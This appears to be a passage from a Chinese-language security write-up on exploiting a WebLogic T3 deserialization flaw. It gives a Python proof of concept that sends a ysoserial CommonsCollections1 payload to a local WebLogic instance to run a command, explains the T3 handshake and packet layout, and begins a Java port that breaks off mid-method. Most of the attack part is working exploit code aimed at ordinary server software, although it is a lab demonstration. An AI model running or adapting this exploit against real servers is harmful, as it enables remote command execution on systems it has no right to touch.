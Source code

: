 ```py
if __name__ == "__main__":
    ip = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "raw_cmd:touch /tmp/success"
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)

```

更改一下ysoserialpath运行之后会显示Weblogic版本，同时在docker的/tmp/下创建success

> 这里ysoserial用的https://github.com/woodpecker-framework/ysoserial-for-woodpecker

* poc分析：generatePayload函数先用CC1生成了序列化数据

  ​				T3Exploit发送了一个`t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n`请求包，然后从相应包中匹配字符串`HELO:`和`0.false`中间的部分，也就是weblogic的版本号。

  ​				然后是`00000000`进行占位，该位置为数据包长度，设置完POC后再来改。定义了固定的t3header和反序列化标志头`fe010000`。RFC1700规定使用“大端”字节序为网络字节序，所以对生成的payload使用`>`大端模式打包，`I`表示unsigned int。

* 测试运行：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318114210400.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230318114230446.png)



JAVA POC

```java
package org.exploit.Weblogic;

import java.io.*;
import java.net.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.regex.*;
import java.nio.charset.StandardCharsets;

public class WebLogicExploit {

    // Function to generate payload using ysoserial
    public static byte[] generatePayload() throws IOException {
        String filePath = "cc6.ser";

        byte[] payload = new byte[0];
        try {
            // 读取二进制文件
            payload = Files.readAllBytes(Paths.get(filePath));

        } catch (IOException e) {
            e.printStackTrace();
        }
        return payload;
    }

    // Function to send the exploit payload over T3 protocol
    public static void T3Exploit(String ip, int port, byte[] payload) throws IOException {
        Socket socket = new Socket(ip, port);
        OutputStream outputStream = socket.getOutputStream();
        InputStream inputStream = socket.getInputStream();
        
        // Send T3 handshake
        String handshake = "t3 10.3.6\nAS:255\nHL:19\nMS:10000000\n\n";
```